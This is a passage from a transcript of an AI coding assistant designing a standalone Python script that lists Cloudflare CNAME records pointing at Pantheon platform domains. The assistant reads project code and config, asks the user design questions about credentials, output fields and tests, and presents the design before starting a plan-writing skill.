8	# The whole Cloudflare plugin shares ONE Cloudflare client instance (one auth, one HTTP
9	# session).  It is built lazily on first use by get_client() and cached in
10	# sc.plugin_context['plugin.cloudflare']['client'].  __init__ stores a reference to get_client in
11	# the same bag so the other parts of the plugin (ips.py, fqdns.py) can reach it WITHOUT importing
12	# this module -- keeping them free of relative imports and standalone-loadable by the tests, and
13	# removing any hook-registration-order dependency (the client is built on first access, whichever
14	# hook runs first).
15	
16	
17	def build_client() -> Cloudflare:
18	    """Construct the Cloudflare client from the [Cloudflare] config section.
19	
20	    api_token (preferred) else email + api_key.  There is no direct-environment fallback; the
21	    operator decides in the config file where those values come from (literals, <{secret env
22	    ...}>, <{secret aws ...}>, ...).  Missing credentials while enabled -> clear exit.
23	    """
24	    cf = sc.config['Cloudflare']
25	    api_token = cf.get('api_token')
26	    if api_token:
27	        return Cloudflare(api_token=api_token)
28	    email = cf.get('email')
29	    api_key = cf.get('api_key')
30	    if not email or not api_key:
31	        sys.exit('ERROR: [Cloudflare] is enabled but needs either api_token, '
32	                 'or both email and api_key.')
33	    return Cloudflare(api_email=email, api_key=api_key)
34	
35	
36	def get_client() -> Cloudflare:
37	    """Return the shared Cloudflare client, building it on first use.
38	
39	    Runs at the setup-hook stage (via the first consumer), AFTER the pre-setup config-substitution
40	    pass -- so credentials are resolved (not still <{...}> placeholders).  The client's creds must
41	    be pass-1-resolvable (nothing today defers Cloudflare creds; only plugin.umich returns
42	    sc.DEFER).
43	    """
44	    ctx = sc.plugin_context.setdefault('plugin.cloudflare', {})
45	    if ctx.get('client') is None:
46	        ctx['client'] = build_client()
47	    return ctx['client']
48
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/prompts/new-feature-standards.md"
}
```

### ↳ Tool result

```
1	# New-Feature Standards
2	
3	A **standards overlay** for the `superpowers:brainstorming` skill. The skill drives the
4	*process* (explore context → ask one question at a time → propose 2–3 approaches → present
5	the design in sections → write & review the spec → hand off to `writing-plans`). This file
6	defines the *bar* and the *judgment* to apply inside that flow. Where they overlap, the
7	skill owns the process; this file owns the standards.
8	
9	> **Read `prompts/directives.md` first.** It is the Spine: the Posture, the 14 Prime
10	> Directives, the Engineering Preferences, and the spec quality bar — the single copy.
11	> This file adds only what is specific to designing a feature; it does not restate a rule
12	> from there. Directives are cited here **by number**.
13	
14	## Two things the skill does not tell you to do
15	
16	1. **Verify load-bearing claims.** Independently confirm the facts a design rests on —
17	   from the prompt, documentation, code, and anything I assert in this session — rather
18	   than trusting them. Confirm them against the **authority**, not against an artifact's
19	   appearance: a directory listing is not a plugin manifest, a tool's shape is not its
20	   documented contract, and a number you recall is not a number you measured. This is where
21	   designs here fail most often.
22	2. **Surface expansion opportunities, one at a time.** Hold my feature description as the
23	   baseline and make it bulletproof. *Separately*, present each expansion you see as its
24	   own `AskUserQuestion` so I can cherry-pick. Neutral posture: state the opportunity, its
25	   effort, and its risk, then let me decide. Accepted expansions join the plan's scope;
26	   rejected ones go to an explicit **"NOT in scope"** list, with the reasoning preserved so
27	   a later session doesn't re-litigate them. Keep the *picker* cheap — one question per
28	   expansion. Once I accept one whose shape isn't settled, that's when to go deep with the
29	   `/grilling` skill.
30	
31	## Selecting a solution
32	
33	The skill already generates 2–3 approaches; this is the rubric for judging them. Evaluate
34	each option against the factors below using a **checklist backed by quoted evidence** —
35	from the Spine's standards *and* from industry best practice — **not** a self-graded number.
36	For each factor, note how important it is relative to the others. Refine any option that
37	fails a factor and re-evaluate (up to three passes). Select on the weight of evidence across
38	factors; use professional judgment to break ties and secure the best outcome.
39	
40	Factors: **Correctness · Completeness · Ability to implement · Maintainability ·
41	Robustness/fragility · Clarity · Security · Testing · Observability.**
42	
43	## Where the spec goes
44	
45	Create the spec/plan and other documents produced under `development/`, in the same
46	subdirectory as the prompt if the prompt came from a file, or in a new subdirectory named
47	with a proper date and slug if it did not. This is instead of putting the files under
48	`docs/superpowers`.
49	
50	**Commit the spec before implementation begins.** Without a committed baseline there is no
51	diff, and "did this section shrink?" or "what changed since review?" become unanswerable —
52	which is PD#14 (§ Spine) applied to the document itself.
53	
54	## This project's context
55	
56	Read `CLAUDE.md` for the conventions a design must respect here:
57	
58	- Self-registering `plugin/` (data sources/integrations) and `check/` (report sections)
59	  packages, wired through the ordered `sc.PHASES` seams and their per-phase data contract.
60	  New integrations go in a package, not the core.
61	- **Tests**: add/adjust the right tier under `tests/`; run with `./run-tests`
62	  (`--fast` for the offline loop). Respect the safety interlock — no
63	  `--all`/`--for-real`/live `--create-tables` in tests.
64	- **Prefer the Pantheon API over `terminus`** for new code unless `terminus` is clearly
65	  better (missing endpoints, materially simpler/cleaner, better results).
66	- Keep institution-specific logic behind config flags / the `umich` plugin+check packages
67	  so the tool stays reusable by other institutions.
68
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "wc -l find-platform-domains-dns && grep -n \"^def \\|^class \\|^# ---\\|^EXIT_\\|^import \\|^from \" find-platform-domains-dns | head -80",
  "description": "Outline existing dns util script"
}
```

### ↳ Tool result

```
1177 find-platform-domains-dns
24:import argparse
25:import contextlib
26:import csv
27:import dataclasses
28:import io
29:import json
30:import os
31:import shlex
32:import signal
33:import struct
34:import sys
35:import time
36:import tomllib
37:from pathlib import Path
38:from typing import NamedTuple
39:from urllib.parse import quote
41:import dns.exception
42:import dns.name
43:import dns.resolver
44:import httpx
51:class MalformedNameError(Exception):
62:def resolve(hostname, rrtype):
85:def skipped(message):
90:def warning(message):
102:def retrying(message):
123:def normalize(name):
128:def is_platform_domain(name):
133:class WalkResult(NamedTuple):
139:def resolve_cname_retrying(name):
158:def walk(custom_domain):  # noqa: PLR0911 -- 7 returns, one per documented outcome in the diagram below; collapsing them into a result variable would hide which branch produced which outcome
215:class PantheonApiError(Exception):
219:class PantheonApiShapeError(PantheonApiError):
229:class SessionExpiredError(Exception):
240:class MachineTokenError(Exception):
244:def machine_token():
284:class ApiSession:
393:class SiteListingError(Exception):
397:def _require(payload, key, where):
408:def _require_str(payload, key, where):
424:def org_sites(get, org_id):
490:def named_sites(get, names):
518:def site_environments(get, site_id):
529:def partition_domains(entries):
559:class Counters:
572:def platform_domain_is_dead(name):
593:class Sweeper:
718:def build_arg_parser():
732:def org_id_from_config(path):
758:def build_session(notify=None):
777:def main(argv):
843:class StartupError(Exception):
847:def require_usable_streams():
877:def report_startup_failure(e):
904:def org_id_or_startup_error(config_path):
926:def prepare_sweep(options, note):
957:def option_strings_taking_a_value():
972:def resume_command(argv, original_sites, names):
1017:def detach_doomed_stdout():
1047:def point_at_devnull(stream):
1065:def detach_doomed_stderr():
1090:def report_line(text):
1118:def report_stop(sweeper, reason, argv, original_sites):
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '700,800p' find-platform-domains-dns && echo ===== && grep -n -A12 '^\\[Cloudflare\\]' sample-pantheon-sitehealth-emails.toml && echo ===== && ls pantheon-sitehealth-emails.toml && grep -n -A12 '^\\[Cloudflare\\]' pantheon-sitehealth-emails.toml 2>/dev/null | sed 's/=.*token.*/=<redacted>/'",
  "description": "Read config plumbing and Cloudflare config shape"
}
```

### ↳ Tool result

```
            warning(
                f"{where}: the record to change is {result.dns_record}, not the custom domain; "
                "verify who else points at it before rewriting")
        if result.platform_domain not in platform_domains:
            warning(
                f"{where}: points at {result.platform_domain}, which belongs to a different "
                f"site/environment (expected one of: "
                f"{', '.join(sorted(platform_domains)) or 'none listed'})")
        if platform_domain_is_dead(result.platform_domain):
            warning(
                f"{where}: platform domain {result.platform_domain} does not resolve; the "
                "downstream rewrite has no addresses to use")
        self._writer.writerow([site["name"], env_id, custom_domain,
                               result.dns_record, result.platform_domain])
        self._stream.flush()      # so a 38-minute sweep can be watched with tail -f
        self.counters.rows += 1


def build_arg_parser():
    parser = argparse.ArgumentParser(
        allow_abbrev=False,          # house rule: no --for -> --for-real class of foot-gun
        description="List Pantheon custom domains whose DNS still reaches a platform domain.")
    parser.add_argument("-c", "--config", default="pantheon-sitehealth-emails.toml",
                        help="TOML file to read [Pantheon].org_id from; whole-organization "
                             "sweeps only, a SITE sweep never reads it")
    parser.add_argument("-v", "--verbose", action="store_true",
                        help="per-site progress on stderr")
    parser.add_argument("site", nargs="*", metavar="SITE",
                        help="site names to sweep; default is the whole organization")
    return parser


def org_id_from_config(path):
    """[Pantheon].org_id from the TOML file.

    Deliberately NOT the main program's config engine: org_id is a literal, so tomllib is the
    whole requirement, and depending on script_context would defeat this script's standalone,
    delete-in-one-commit design.

    The type check is the config-side twin of _require_str (whole-branch review C1).  TOML is a
    typed format, so `org_id = 12345` (an unquoted value -- an ordinary typo, not hostility) hands
    back an int that reaches `quote(org_id, safe="")` in org_sites() and dies there as `TypeError:
    quote_from_bytes() expected bytes` -- an unnamed traceback at exit 1, the code SPEC section 7
    reserves for a COMPLETED sweep.  An earlier fix round's `except (KeyError, TypeError)` around
    the CALL to this function catches a wrong-typed TABLE (`Pantheon = "not-a-table"`, where the
    subscript itself raises) but never a wrong-typed VALUE, whose TypeError is raised a whole
    session later.  Raising here -- where the value is read -- lands inside that same guard and
    becomes the named StartupError with an operator-ready message.  TypeError, not a bespoke
    class, because that guard already exists and already means "unusable [Pantheon].org_id".
    """
    with Path(path).open("rb") as handle:
        org_id = tomllib.load(handle)["Pantheon"]["org_id"]
    if not isinstance(org_id, str):
        raise TypeError(
            f"[Pantheon].org_id should be a string, got {type(org_id).__name__}")
    return org_id


def build_session(notify=None):
    """The production ApiSession, over one reused connection.  Monkeypatched by the CLI tests.

    follow_redirects is left at httpx's default of False ON PURPOSE (SPEC section 3, threat
    model property (c)): the Authorization header must never be replayed to a redirect target.

    machine_token() is called BEFORE the httpx.Client is constructed (fix round 2, N10): this
    round's C1 fix made an unreadable token cache a reachable, non-fatal-to-the-process failure
    (it now raises a named MachineTokenError instead of crashing the interpreter), which means
    the client this function used to build first would have leaked -- never closed, since
    nothing held a reference to it once the exception unwound.  Resolving the token first means
    no client is ever constructed on that path at all, which is simpler than a try/except that
    closes one just to immediately re-raise.
    """
    token = machine_token()
    client = httpx.Client(timeout=HTTP_TIMEOUT, headers={"User-Agent": USER_AGENT})
    return ApiSession(client, token, notify=notify)


def main(argv):
    """Exit 0 = clean sweep, 1 = completed with indeterminates, 2 = could not complete,
    130 = interrupted (SPEC section 7).

    The exit-code discipline is the point of the structure below.  Python exits 1 on ANY
    uncaught traceback, and section 7 reserves 1 for "completed with indeterminates" -- so a
    Ctrl-C, a broken pipe, or an unexpected API shape leaking out of here would be
    indistinguishable from a healthy sweep that had a few DNS timeouts.  Every other outcome is
    routed away from 1, and the only `return 1` in the program is the indeterminate branch.

    The summary print sits INSIDE the try (residual review, finding 1 -- SPEC G19).  Outside it,
    an ENOSPC on that one line escaped main() entirely and the interpreter's shutdown flush of
    the same doomed stderr turned the run into exit **120**, with a complete CSV on stdout and
    nothing in section 7's taxonomy to describe it (measured: `find-platform-domains-dns bus-occb
    2> /dev/full > /tmp/o3.out` -> exit 120).  Inside, it becomes an ordinary abort at exit 2:
    a sweep whose outcome could not be reported has not been reported.
    """
    options = build_arg_parser().parse_args(argv)

    def note(message):                       # the G7 re-authentication note, -v only
        if options.verbose:
            print(message, file=sys.stderr, flush=True)

    try:
=====
137:[Cloudflare]
138-enabled = false
139-# Credentials come entirely from the settings below (no direct-environment fallback).  Use either
140-# an API token (preferred, uncomment api_token) or the email + Global API Key pair.  Each value can
141-# be a literal or an <{...}> substitution (see the top of this file).  The credentials need
142-# DNS:Read.  When enabled, the tool fetches the set of Cloudflare-proxied FQDNs (fqdns.json)
143-# directly from the Cloudflare API and auto-refreshes it (see docs/cloudflare-fqdns.md); the two
144-# --*-cloudflare-fqdns flags control that refresh.
145-email   = "<{secret env CLOUDFLARE_EMAIL}"
146-api_key = "<{secret env CLOUDFLARE_API_KEY}"
147-# api_token = "<{secret env CLOUDFLARE_API_TOKEN}"   # preferred when uncommented; overrides email/api_key
148-
149-
=====
pantheon-sitehealth-emails.toml
89:[Cloudflare]
90-enabled = true
91-# Credentials come entirely from these settings (no direct-environment fallback).  These pull from
92-# the CLOUDFLARE_EMAIL / CLOUDFLARE_API_KEY environment variables, reproducing the prior behavior;
93-# uncomment api_token to use an API token instead (preferred).
94-email   = "<{secret env CLOUDFLARE_EMAIL}"
95-api_key = "<{secret env CLOUDFLARE_API_KEY}"
96-# api_token = "<{secret env CLOUDFLARE_API_TOKEN}"
97-
98-[Cloudflare.cachecheck]
99-# Per-site Cloudflare cache-configuration checks (see docs/cloudflare-cachecheck.md).
100-enabled = true
101-# Cloudflare account whose IP list authorizes this program's egress address:
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/plugin/env/get_env.py"
}
```

### ↳ Tool result

```
1	import os
2	
3	import script_context as sc
4	
5	_UNSET = object()  # distinguishes "no default supplied" from an empty-string default
6	
7	
8	def get_env(name, default=_UNSET):
9	    """Return the value of environment variable `name` for a config substitution.
10	
11	    An env var that is set but empty returns "" (set != unset).  If the var is unset:
12	    return `default` when one was supplied (the optional trailing argument of the
13	    <{env ...}> / <{secret env ...}> forms), else raise ConfigSubstitutionError so the
14	    framework aborts with a config-path-annotated message (see config_substitution).
15	    """
16	    if name in os.environ:
17	        return os.environ[name]
18	    if default is not _UNSET:
19	        return default
20	    raise sc.ConfigSubstitutionError(f"environment variable '{name}' is not set")
21
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"find-platform\\|find_platform\" pyproject.toml .claude/hooks/ruff-check.sh run-tests 2>/dev/null; echo =====; ls -la find-platform-domains-dns*; echo ===; sed -n '1,50p' find-platform-domains-dns",
  "description": "Check tooling entries for the dns script"
}
```

### ↳ Tool result

```
pyproject.toml:131:"find-platform-domains-dns.py" = ["T201"]  # a CLI tool: print IS its output (stdout = the CSV,
pyproject.toml:134:"find-platform-domains-dns" = ["T201"]  # the extension-less real file the .py entry above
pyproject.toml:145:include = ["psh", "find-platform-domains-dns.py"]
.claude/hooks/ruff-check.sh:77:# it through, but an edit lands on the real file.  find-platform-domains-dns (temporary
.claude/hooks/ruff-check.sh:82:    "$REPO_ROOT/find-platform-domains-dns") ;;
=====
-rwxr-xr-x 1 node node 65091 Jul 30 08:12 find-platform-domains-dns
lrwxr-xr-x 1 node node    25 Jul 28 13:59 find-platform-domains-dns.py -> find-platform-domains-dns
===
#!/usr/bin/env python
"""List Pantheon custom domains whose DNS still reaches a platform domain by CNAME.

TEMPORARY.  Delete after Pantheon's Fastly -> Pantheon-Cloudflare CDN migration completes;
see development/2026-07-28-platform-domain-util/SPEC.md section 14 for the checklist.

Standalone by design: this imports nothing from psh/, check/, plugin/ or script_context, so most
of removing it is `git rm` of the script, its .py symlink and its test file -- SPEC section 14's
full checklist also has three pyproject.toml entries and a ruff-check.sh case arm (fix round 2,
N6: this sentence previously undercounted the same way CLAUDE.md's copy of it did).  The DNS walk
and the resolver seam are COPIES of check/pantheon_cdn_change/chain.py and psh/dns_classify.py.

Output: CSV on stdout -- a `site_name,site_env,custom_domain,dns_record,platform_domain` header
row, written and flushed before the first site so a hit-free sweep still names its columns, then
one row per hit.
Operator messages, including every indeterminate lookup, go to stderr.  Exit 0 = clean sweep,
1 = completed with indeterminates, 2 = could not complete, 130 = interrupted (fix round 2, N7:
this line omitted 130, which main()'s own docstring and CLAUDE.md both document).

Requires: dnspython and httpx (httpx is declared under this project's `cloudflare` extra, which
the documented `uv pip install .[mysql,aws,cloudflare]` setup line installs) and a Pantheon
machine token, from $PANTHEON_MACHINE_TOKEN or ~/.terminus/cache/tokens/.
"""
import argparse
import contextlib
import csv
import dataclasses
import io
import json
import os
import shlex
import signal
import struct
import sys
import time
import tomllib
from pathlib import Path
from typing import NamedTuple
from urllib.parse import quote

import dns.exception
import dns.name
import dns.resolver
import httpx

PLATFORM_SUFFIX = ".pantheonsite.io"
MAX_CNAME_DEPTH = 8
DNS_RETRY_SLEEP = 1.0     # before retrying a NoNameservers only -- see resolve_cname_retrying
```

## Assistant

I've read the context: `plugin/cloudflare/fqdns.py` (the `fqdns.json` generator), `plugin/cloudflare/client.py` (auth), the existing `find-platform-domains-dns` standalone script and its conventions, and `prompts/new-feature-standards.md`.

One thing that needs deciding before anything else: **where the Cloudflare credentials come from.** The main program's config has `email = "<{secret env CLOUDFLARE_EMAIL}"` — those are `<{…}>` substitution markers resolved by `psh/configuration.py` + `plugin.env`, which a standalone script can't reach without importing the config engine.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "How should `find-platform-domains-cloudflare` obtain its Cloudflare credentials?",
      "header": "Creds",
      "multiSelect": false,
      "options": [
        {
          "label": "Read the TOML + mini resolver (Recommended)",
          "description": "Read [Cloudflare] from the same TOML with tomllib, and copy a ~15-line resolver into the script that handles just the `<{env NAME}` / `<{secret env NAME}` forms (with optional default). Operator config stays the source of truth; script stays standalone. Same shape as the dns script's org_id_from_config.",
          "preview": "cf = tomllib.load(f)[\"Cloudflare\"]\ntoken = resolve_marker(cf.get(\"api_token\"))\n# \"<{secret env CLOUDFLARE_API_TOKEN}\" -> os.environ[...]\n# unresolvable marker -> named startup error, exit 2"
        },
        {
          "label": "Read env vars directly",
          "description": "Skip the config file entirely: CLOUDFLARE_API_TOKEN, else CLOUDFLARE_EMAIL + CLOUDFLARE_API_KEY, straight from os.environ. Simplest possible. Diverges from the repo's 'no feature code reads creds from the environment' rule, and breaks if an operator ever puts a literal or an <{secret aws …}> in the config.",
          "preview": "token = os.environ.get(\"CLOUDFLARE_API_TOKEN\")\nemail = os.environ.get(\"CLOUDFLARE_EMAIL\")\nkey   = os.environ.get(\"CLOUDFLARE_API_KEY\")"
        },
        {
          "label": "Import the config engine",
          "description": "Import script_context + psh.configuration and run the real substitution pass. Handles every substitution form including <{secret aws …}>. Costs the standalone property: deletion is no longer `git rm` of three files, and the script inherits the whole psh import graph (~276 modules)."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "How should `find-platform-domains-cloudflare` obtain its Cloudflare credentials?"="Read the TOML + mini resolver (Recommended)" selected preview:
cf = tomllib.load(f)["Cloudflare"]
token = resolve_marker(cf.get("api_token"))
# "<{secret env CLOUDFLARE_API_TOKEN}" -> os.environ[...]
# unresolvable marker -> named startup error, exit 2. You can now continue with these answers in mind.
```

## Assistant

Credentials settled. Next, an expansion opportunity — I'll state it neutrally and let you decide.

Your `research.md` in this same folder documents the downstream rewrite: it needs each CNAME's **record id** (for `deletes`) and its **proxied** flag (the load-bearing field when re-creating). The `fqdns.json` structure carries neither — only `{zone_id, origins}`. A rewriter fed this file would have to re-query Cloudflare per hostname to find the id.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "Expansion: add `record_id` and `proxied` to each entry, beyond the fqdns.json structure?",
      "header": "Extra fields",
      "multiSelect": false,
      "options": [
        {
          "label": "No — keep fqdns.json structure exactly",
          "description": "As the prompt specifies: {fqdn: {zone_id, origins}}. Zero extra effort. Downstream rewriter re-queries Cloudflare for the record id (one list call per zone, which it likely does anyway). Goes on the NOT-in-scope list with this reasoning preserved.",
          "preview": "{\n  \"example1.cdn-dev.it.umich.edu\": {\n    \"zone_id\": \"abc123\",\n    \"origins\": [\"live-umich-example1.pantheonsite.io\"]\n  }\n}"
        },
        {
          "label": "Yes — add both fields",
          "description": "Effort: ~3 lines (both are already on the record objects the loop iterates). Risk: output is no longer byte-comparable to an fqdns.json slice, and any consumer written against the plain structure sees unexpected keys. Makes the file self-sufficient for the batch rewrite in research.md.",
          "preview": "{\n  \"example1.cdn-dev.it.umich.edu\": {\n    \"zone_id\": \"abc123\",\n    \"origins\": [\"live-umich-example1.pantheonsite.io\"],\n    \"record_ids\": [\"9f0e…\"],\n    \"proxied\": [true]\n  }\n}"
        },
        {
          "label": "Yes — record_id only",
          "description": "Add the record id (what the batch DELETE needs) but not proxied. ~1 line. Partial: the rewriter still must decide proxied status some other way — though research.md says it should always create proxied:true, so it may not need to read it."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "Expansion: add `record_id` and `proxied` to each entry, beyond the fqdns.json structure?"="Yes — add both fields" selected preview:
{
  "example1.cdn-dev.it.umich.edu": {
    "zone_id": "abc123",
    "origins": ["live-umich-example1.pantheonsite.io"],
    "record_ids": ["9f0e…"],
    "proxied": [true]
  }
}. You can now continue with these answers in mind.
```

## Assistant

Now the shape of those extra fields. `origins` is a list, so the added fields need to align with it — and a name can appear in more than one zone (the conflict case `fqdns.py` warns about), where the single top-level `zone_id` already loses information.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "How should the per-record detail be represented?",
      "header": "Field shape",
      "multiSelect": false,
      "options": [
        {
          "label": "Parallel arrays (Recommended)",
          "description": "origins / record_ids / proxied, all index-aligned and always the same length. Minimal delta from fqdns.json: an existing consumer reading only zone_id+origins is unaffected. Risk: index alignment is a convention nothing enforces — mitigated by the fact that all three are appended in the same statement.",
          "preview": "\"example1.cdn-dev.it.umich.edu\": {\n  \"zone_id\":    \"abc123\",\n  \"origins\":    [\"live-umich-example1.pantheonsite.io\"],\n  \"record_ids\": [\"9f0e…\"],\n  \"proxied\":    [true]\n}"
        },
        {
          "label": "Nested records list",
          "description": "Keep zone_id+origins verbatim for structural compatibility, add a `records` list of self-contained objects carrying id/content/proxied AND per-record zone_id — which recovers the zone information the single top-level zone_id drops in the cross-zone case. Cost: `content` is duplicated in origins.",
          "preview": "\"example1.cdn-dev.it.umich.edu\": {\n  \"zone_id\": \"abc123\",\n  \"origins\": [\"live-umich-example1.pantheonsite.io\"],\n  \"records\": [\n    { \"id\": \"9f0e…\", \"zone_id\": \"abc123\",\n      \"content\": \"live-umich-example1.pantheonsite.io\",\n      \"proxied\": true }\n  ]\n}"
        },
        {
          "label": "Scalars, first-record-wins",
          "description": "record_id and proxied as plain scalars matching the first record seen, mirroring how zone_id already works. Simplest to consume. Loses the second record entirely in the cross-zone conflict case (which the run warns about on stderr regardless).",
          "preview": "\"example1.cdn-dev.it.umich.edu\": {\n  \"zone_id\":   \"abc123\",\n  \"origins\":   [\"live-umich-example1.pantheonsite.io\"],\n  \"record_id\": \"9f0e…\",\n  \"proxied\":   true\n}"
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "How should the per-record detail be represented?"="Scalars, first-record-wins" selected preview:
"example1.cdn-dev.it.umich.edu": {
  "zone_id":   "abc123",
  "origins":   ["live-umich-example1.pantheonsite.io"],
  "record_id": "9f0e…",
  "proxied":   true
}. You can now continue with these answers in mind.
```

## Assistant

Two decisions left before I present the design. First, testing — the sibling `find-platform-domains-dns` has a 2,500-line test file, which is clearly not the bar for a throwaway script, but CLAUDE.md says this project is test-first and the prompt's "don't worry about maintainability" carve-out doesn't mention tests.

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "What test coverage should `find-platform-domains-cloudflare` get?",
      "header": "Test scope",
      "multiSelect": false,
      "options": [
        {
          "label": "Thin unit tests on the pure parts (Recommended)",
          "description": "One test file, roughly 150-250 lines: the `<{secret env …}>` marker resolver, the CNAME-matching predicate (.pantheonsite.io suffix, case, trailing dot, the near-miss 'notpantheonsite.io'), the record->entry builder incl. first-record-wins and cross-zone conflict, and the atomic write. Cloudflare client faked with a stub object. No live API. Keeps test-first honest without a harness for a script that dies this year."
        },
        {
          "label": "Add a CLI-level test too",
          "description": "Everything above plus a test that drives main() end-to-end with a fake client injected through a seam, asserting the written file and the exit code. ~100 more lines, and forces a client-injection seam to exist in the script."
        },
        {
          "label": "No tests",
          "description": "Manual verification against the real Cloudflare org only. Fastest, and defensible for a delete-in-months script — but conflicts with CLAUDE.md's test-first rule, and the marker resolver + suffix predicate are exactly where a silent wrong-answer bug would hide (an empty output file looks identical to 'nothing matched')."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "What test coverage should `find-platform-domains-cloudflare` get?"="Thin unit tests on the pure parts (Recommended)". You can now continue with these answers in mind.
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '120,140p' find-platform-domains-dns; echo =====; grep -n \"fqdns.json\\|\\.json\" .gitignore",
  "description": "Read normalize/is_platform_domain and gitignore"
}
```

### ↳ Tool result

```
    print(f"RETRY: {message}", file=sys.stderr, flush=True)


def normalize(name):
    """Lowercase, strip whitespace and the trailing root dot dnspython includes."""
    return str(name).strip().rstrip(".").lower()


def is_platform_domain(name):
    """True for a Pantheon-provided *.pantheonsite.io hostname."""
    return normalize(name).endswith(PLATFORM_SUFFIX)


class WalkResult(NamedTuple):
    dns_record: str       # FQDN owning the hitting CNAME record; "" when there was no hit
    platform_domain: str  # the *.pantheonsite.io target reached;   "" when there was no hit
    problem: str          # "" for a definitive answer (hit or clean); else why it is indeterminate


def resolve_cname_retrying(name):
    """resolve(name, "CNAME") with ONE retry on a transient resolver failure.
=====
9:/site_results.json
10:/fqdns.json
15:*-results.json
24:/development/**/*.jsonl
```

## Assistant

Here's the design.

## 1. Shape and files

A standalone executable `find-platform-domains-cloudflare` (`#!/usr/bin/env python`), importing **nothing** from `psh/`/`check/`/`plugin/`/`script_context` — same delete-in-one-commit posture as `find-platform-domains-dns`. Plus the committed `find-platform-domains-cloudflare.py` symlink (ruff/pyright/CodeGraph key off the extension).

Files touched: the script, its `.py` symlink, `tests/unit/test_find_platform_domains_cloudflare.py`, three `pyproject.toml` entries (two `per-file-ignores`, one `[tool.pyright].include`), one `.claude/hooks/ruff-check.sh` case arm, `/platform-domains-cloudflare.json` in `.gitignore`, and a CLAUDE.md section beside the existing one. The SPEC carries the deletion checklist enumerating exactly these.

## 2. Flow

1. `-c/--config` (default `pantheon-sitehealth-emails.toml`), `-v/--verbose`. No `--output` flag — the path is the fixed constant the prompt names.
2. `tomllib` → `[Cloudflare]` → resolve `<{env NAME}` / `<{secret env NAME}` markers (optional trailing default) with a copied ~15-line resolver → `api_token` if present, else `email` + `api_key`. **`enabled` is not consulted** — you ran the script deliberately; gating on it would be a surprise.
3. `accounts.list()` → per account `zones.list()` → per zone `dns.records.list(zone_id=…)` with **no** `proxied` filter, iterating every record.
4. Keep a record when `type == "CNAME"` and `normalize(content).endswith(".pantheonsite.io")` — `normalize` copied verbatim (lowercase, strip whitespace and trailing root dot). Client-side filtering, not a server-side `type="CNAME"`, so the code literally does what "consider all DNS records" says; the one-word change is available if a run turns out painfully slow.
5. Entry per FQDN: `zone_id`/`record_id`/`proxied` first-record-wins, `origins` appends. A name matching in two zones prints an `ATTENTION:` line on stderr, same as `fqdns.py`.
6. Always write `./platform-domains-cloudflare.json`, atomically (`write_fqdns_atomic` copied: temp file + `os.replace`, umask-restored mode) — no existence check, no age check, no `_load_existing` path. **An empty result still writes an empty `{}`**, so a downstream reader never mistakes a stale file for a current answer.
7. Summary to stderr: N matching CNAMEs across Z zones in A accounts.

## 3. Failure posture

Exit **0** = file written; **2** = could not complete (config unreadable, no `[Cloudflare]`, unresolvable credential marker, missing creds, any `cloudflare.CloudflareError`, or zero zones — the DNS:Read scope symptom, fatal exactly as in `fqdns.py`); **130** = Ctrl-C. There is deliberately **no exit 1**: the dns script's "completed with indeterminates" exists because DNS lookups can be indeterminate, whereas a Cloudflare list call either returns or raises.

Two things I'm deliberately **not** copying from the dns script, both worth your pushback: the doomed-stdout/stderr detach guards and their 120-exit taxonomy (output is a file here, not stdout; a doomed stderr can still exit 120 — accepted, documented), and rich progress bars (plain `-v` stderr lines per zone instead, one less dependency on copied machinery).

## 4. Tests

`tests/unit/test_find_platform_domains_cloudflare.py`, ~150–250 lines, fully offline with a stub client object: the marker resolver (present/missing/default/non-marker literal), the suffix predicate (case, trailing dot, and the near-miss `notpantheonsite.io`), the record→entry builder (non-CNAME skipped, non-matching CNAME skipped, unproxied record **included**, first-record-wins, cross-zone conflict), and the atomic write.

Does this look right — particularly section 3's two omissions?

## User

both omissions are fine, use the superpowers:writing-plans skill to write the spec

### ⚙ Tool call: `Skill`

```json
{
  "skill": "superpowers:writing-plans"
}
```

### ↳ Tool result

```
Launching skill: superpowers:writing-plans
```

## User

Base directory for this skill: /home/node/.claude/plugins/cache/claude-plugins-official/superpowers/6.2.0/skills/writing-plans

# Writing Plans

## Overview

Write comprehensive implementation plans assuming the engineer has zero context for our codebase and questionable taste. Document everything they need to know: which files to touch for each task, code, testing, docs they might need to check, how to test it. Give them the whole plan as bite-sized tasks. DRY. YAGNI. TDD. Frequent commits.

Assume they are a skilled developer, but know almost nothing about our toolset or problem domain. Assume they don't know good test design very well.

**Announce at start:** "I'm using the writing-plans skill to create the implementation plan."

**Context:** If working in an isolated worktree, it should have been created via the `superpowers:using-git-worktrees` skill at execution time.

**Save plans to:** `docs/superpowers/plans/YYYY-MM-DD-<feature-name>.md`
- (User preferences for plan location override this default)

## Scope Check

If the spec covers multiple independent subsystems, it should have been broken into sub-project specs during brainstorming. If it wasn't, suggest breaking this into separate plans — one per subsystem. Each plan should produce working, testable software on its own.

## File Structure

Before defining tasks, map out which files will be created or modified and what each one is responsible for. This is where decomposition decisions get locked in.

- Design units with clear boundaries and well-defined interfaces. Each file should have one clear responsibility.
- You reason best about code you can hold in context at once, and your edits are more reliable when files are focused. Prefer smaller, focused files over large ones that do too much.
- Files that change together should live together. Split by responsibility, not by technical layer.
- In existing codebases, follow established patterns. If the codebase uses large files, don't unilaterally restructure - but if a file you're modifying has grown unwieldy, including a split in the plan is reasonable.

This structure informs the task decomposition. Each task should produce self-contained changes that make sense independently.

## Task Right-Sizing

A task is the smallest unit that carries its own test cycle and is worth a
fresh reviewer's gate. When drawing task boundaries: fold setup,
configuration, scaffolding, and documentation steps into the task whose
deliverable needs them; split only where a reviewer could meaningfully
